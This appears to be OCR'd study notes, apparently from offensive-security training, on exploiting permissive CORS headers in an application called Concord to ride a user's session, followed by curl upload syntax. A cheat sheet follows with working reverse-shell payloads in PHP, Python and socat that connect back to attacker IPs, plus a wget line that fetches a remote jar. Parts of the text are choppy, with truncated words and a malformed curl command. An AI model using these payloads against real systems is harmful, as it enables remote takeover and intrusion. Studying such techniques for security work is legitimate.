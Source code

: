 Since Concord has some permissive CORS headers, any site that an authenticated user visits can interact with Concord and ride the user's session. 

As we discovered earlier, only GET requests and some POST requests will work in Concord.

he request is sent with a POST request using the application/json content type. Unfortunately, this won't work as the browser will send an OPTIONS request before the POST request. As we've learned earlier, the responses to OPTIONS requests in Concord contain different CORS headers that are less vulnerable. Let's keep searching.

api/v1/process 

According to Mozilla, a "multipart/form-data" content type does not require a preflight check.3

CURL command sends a GET request to /api/v1/process and specifies the ZIP with the -F

curl -X GET -F FILENAME -H 'Content-type: application/json' ( -F flag specifies multipart data.) multipart/form-data 


------------------
CURL UPLOAD FILE:
------------------

$ curl -F 'parameterNAME=@/path/to/fileX' -F 'fileY=@/path/to/fileY' ... http://localhost/upload

to send multiple files:

curl -F 'fileX=@/path/to/fileX' -F 'fileY=@/path/to/fileY' ... http://localhost/upload

---------------------------------
REVERSE SHELLS:
---------------------------------

PHP REVERSE SHELL:
--------------------

php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

PYTHON:
-------

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.2",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

SOCAT:
--------

HACKER: socat file:`tty`,raw,echo=0 tcp-listen:4444  

VICTIM: socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:HACKER_IP:4444

JAVA:
------
wget http://1.1.1.1:9999/revs.jar -O /tmp/revs1.jar;
